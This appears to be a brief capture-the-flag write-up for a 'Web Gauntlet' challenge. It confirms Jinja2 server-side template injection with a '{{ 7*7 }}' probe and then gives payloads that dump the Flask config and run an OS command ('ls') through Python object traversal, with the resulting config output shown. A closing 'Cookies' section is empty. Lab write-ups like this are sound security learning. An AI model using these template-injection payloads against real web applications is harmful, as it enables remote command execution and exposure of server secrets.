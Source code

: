 
# Web Gauntlet
---
# SST1 

Its a python server, so its most probably gonna be jinja2 

server side template injection . 
providing input of `{{ 7*7 }}` gave me output of 49, so its confirmed that its jinja2. 

Now  I can begin crafting my payload 

input: 
```
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}

```

```
# dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```

---

# Cookies 


 

